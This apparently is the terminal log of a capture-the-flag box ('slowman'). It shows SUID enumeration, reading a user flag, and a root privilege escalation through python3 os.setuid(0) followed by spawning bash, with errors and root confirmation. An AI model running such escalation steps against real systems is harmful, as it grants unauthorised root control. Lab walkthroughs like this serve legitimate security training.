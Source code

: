 ```bash
/snap/core20/1974/usr/bin/su
/snap/core20/1974/usr/bin/sudo
/snap/core20/1974/usr/bin/umount
/snap/core20/1974/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1974/usr/lib/openssh/ssh-keysign
/snap/snapd/19457/usr/lib/snapd/snap-confine
/snap/snapd/20290/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/bin/mount
/usr/bin/su
/usr/bin/fusermount3
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/umount
/usr/libexec/polkit-agent-helper-1
(remote) trainerjean@slowman:/home/trainerjean$ ls -la
total 32
drwxr-x--- 3 trainerjean trainerjean 4096 nov 23 21:44 .
drwxr-xr-x 5 root        root        4096 nov 23 21:23 ..
lrwxrwxrwx 1 root        root           9 nov 23 21:22 .bash_history -> /dev/null
-rw-r--r-- 1 trainerjean trainerjean  220 nov 22 19:29 .bash_logout
-rw-r--r-- 1 trainerjean trainerjean 3771 nov 22 19:29 .bashrc
drwx------ 2 trainerjean trainerjean 4096 nov 22 19:30 .cache
-rw-r--r-- 1 trainerjean trainerjean  807 nov 22 19:29 .profile
-rw------- 1 trainerjean trainerjean   77 nov 23 21:44 .python_history
-rw-r--r-- 1 root        root          29 nov 23 19:52 user.txt
(remote) trainerjean@slowman:/home/trainerjean$ cat user.txt 
YOU9et7HEpA$SwordofS10wMan!!
(remote) trainerjean@slowman:/home/trainerjean$ cat .python_history 
import os
os.system('bash')
os.system('0')
os.setid('0')
os.setuid('0')
exit
(remote) trainerjean@slowman:/home/trainerjean$ python3 -c "import os; os.system('/bin/bash')"
trainerjean@slowman:~$ id
uid=1002(trainerjean) gid=1002(trainerjean) groups=1002(trainerjean)
trainerjean@slowman:~$ python3 -c "import os; os.setid('0'); os.setuid('0');os.system('/bin/bash')"
Traceback (most recent call last):
  File "<string>", line 1, in <module>
AttributeError: module 'os' has no attribute 'setid'. Did you mean: 'setgid'?
trainerjean@slowman:~$ python3 -c "import os; os.setuid('0'); os.system('/bin/bash')"
Traceback (most recent call last):
  File "<string>", line 1, in <module>
TypeError: uid should be integer, not str
trainerjean@slowman:~$ python3 -c "import os; os.setuid(0); os.system('/bin/bash')"
root@slowman:~# whoami;id
root
uid=0(root) gid=1002(trainerjean) groups=1002(trainerjean)
```
